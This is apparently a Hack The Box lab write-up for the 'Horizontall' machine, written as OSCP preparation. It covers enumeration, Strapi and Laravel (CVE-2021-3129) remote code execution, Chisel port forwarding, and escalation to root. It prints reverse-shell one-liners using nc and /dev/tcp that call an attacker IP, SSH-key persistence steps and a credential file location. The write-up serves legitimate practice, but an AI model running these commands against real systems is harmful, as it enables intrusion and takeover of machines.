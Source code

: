 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- Prep: [OSCP](OSCP)

---

## 🔍 Foothold
### Nmap Scan
```bash
nmap -p- -T4 -oA scans/nmap-alltcp 10.129.61.76
```

### /etc/hosts Update
```bash
echo "10.129.61.76 horizontall.htb" | sudo tee -a /etc/hosts
```

### Virtual Host Discovery
```bash
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u http://10.129.61.76 -H "Host: FUZZ.horizontall.htb" --fs 194
```

### [Gobuster on API Virtual Host](HTTP)
```bash
gobuster dir -u http://api-prod.horizontall.htb/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_api-prod.horizontall_medium_php-html-txt.txt
```

---

## ⚙️ Exploiting Strapi (Unauthenticated RCE)

### Confirming RCE (Blind)
```bash
tcpdump -i tun0 icmp
```
Send Ping via Exploit ➡️ receive ICMP in tcpdump.

### Reverse Shell Payload
```bash
rm -f /tmp/f; mknod /tmp/f p; cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.5 80 >/tmp/f
```

---

## 🔑 Persistence via [SSH](SSH) Key
```bash
# On victim
mkdir /opt/strapi/.ssh
vim /opt/strapi/.ssh/authorized_keys

# On attacker
ssh-keygen -f strapi
scp strapi.pub to victim and paste into authorized_keys

# SSH access
ssh strapi@horizontall.htb -i strapi
```

---

## 🔍 Enumeration
### Database Creds
Found in:
```bash
/opt/strapi/myapi/config/environments/development/database.json
```

### Connect to MySQL
```bash
mysql -h 127.1 -u developer -p
```

### Open Ports (Local)
```bash
netstat -tulnp
```
Found: 1337, 8000

---

## 🔁 Port Forwarding with Chisel

### Start Chisel Server (Kali)
```bash
./chisel server --port 9000 --reverse
```

### Start Chisel Client (Victim)
```bash
./chisel client 10.10.16.5:9000 R:1234:127.0.0.1:8000
```

---

## 🕵️‍♂️ Web Enumeration on Laravel (p8000)
```bash
gobuster dir -u http://127.0.0.1:1234 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 100 -o gobuster_p8000_medium_php-html-txt.txt
```

Discovered: `/profiles`
Path leaked: `/home/developer/myproject/resources/views/profile/index.blade.php`

---

## 🧨 Privilege Escalation (Laravel RCE)

### CVE-2021-3129 Exploit
```bash
git clone https://github.com/joshuavanderpoll/CVE-2021-3129
python3 CVE-2021-3129.py --url http://127.0.0.1:1234 --exec 'bash -c "bash -i >& /dev/tcp/10.10.16.5/443 0>&1"' --force
```

### Netcat Listener
```bash
nc -lnvp 443
```

---

## ✅ Root Access
Confirmed reverse shell drops as `root`.

---

## 📚 Resources
- Chisel: https://github.com/jpillora/chisel
- Strapi Exploit: https://www.exploit-db.com/exploits/50239
- Laravel Exploits:
  - https://www.exploit-db.com/exploits/49424
  - https://github.com/joshuavanderpoll/CVE-2021-3129